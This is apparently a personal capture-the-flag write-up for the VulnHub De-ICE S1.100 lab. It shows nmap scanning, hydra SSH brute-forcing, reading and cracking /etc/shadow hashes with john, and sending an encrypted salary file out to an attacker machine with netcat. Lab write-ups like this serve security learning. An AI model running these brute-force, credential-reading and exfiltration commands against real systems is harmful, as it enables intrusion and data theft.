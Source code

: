 # De-ICE: S1.100 - write-up

https://www.vulnhub.com/entry/de-ice_s1100-level-1,8/

We first do a `netdiscover` to find the lab's VM and `nmap 192.168.1.100` to find open ports, or better a more comprehensive scan `nmap -sS -Pn -sV -O -A -p- 192.168.1.100`. This was one of my earlier challenges that I didnt write-up, but most of referenced to the walkthroughs

We first gather a list of names to attempt to break the ssh login from the http://192.168.1.100/index2.php. There's a neat little script that combines first name and surname into different combinations: https://gist.github.com/superkojiman/11076951. Using this we can use `hydra -L user.txt -P user.txt ssh://192.168.1.100` to check if the user and pass are the same then we can try `hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100`, fortunately we get a match `bbanter:bbanter`. 


So we login with that and we try to get as much information as possible, e.g. `id`, the name of the box, `uname -a`, running processes `ps aux`, `ps aux | grep root, `netstat -antup`, `cat /etc/passwd`, `cat /etc/group`, `cat /etc/shadow`. From the passwd, we can see that aadams is in the wheel group, this has special commands that he can execute. We then perform another bruteforce hydra attack with `hydra -l aadams -P /usr/share/wordlists/rockyou.txt -u 192.168.1.100 ssh` to get aadams:nostradamus. Logging into aadams, we run `sudo -l` to see the what commands he can run. Now we can run `sudo cat /etc/shadow` and use john to crack the hashes. So we save the revelvant entries

```
aadams:$1$6cP/ya8m$2CNF8mE.ONyQipxlwjp8P1:13550:0:99999:7:::
bbanter:$1$hl312g8m$Cf9v9OoRN062STzYiWDTh1:13550:0:99999:7:::
ccoffee:$1$nsHnABm3$OHraCR9ro.idCMtEiFPPA.:13550:0:99999:7:::
root:$1$TOi0HE5n$j3obHaAlUdMbHQnJ4Y5Dq0:13553:0:::::
```

to pass.txt and use `john --wordlist:/usr/share/wordlists/rockyou.txt user.txt` to find the root password, tarot. Remember the ftp was broken from nmap, we find find a file at /home/ftp/incoming/salary_dec2003.csv.enc. Trying to ssh as root fails, I guess it is to prevent scp. Instead, we ` nc -lvvp 1234 > salary_dec2003.csv.enc` on our attacker machine and `nc -nvv 192.168.1.88 1234 < salary_dec2003.csv.enc` in the ssh terminal. Alternatively, we can cp it to public folder /var/www/htdocs/ where the website is hosted on and then download onto our attack vm by `wget 192.168.1.100/salary_dec2003.csv.enc`. `binwalk salary_dec2003.csv.enc ` tells us its openssl encrypted, but we do not know the cipher suite or password (maybe tarot from the passwd file). We take a guess and finally decrypt with `openssl enc -d -aes-128-cbc -in salary_dec2003.csv.enc -out salary.csv -k tarot`. DONE!
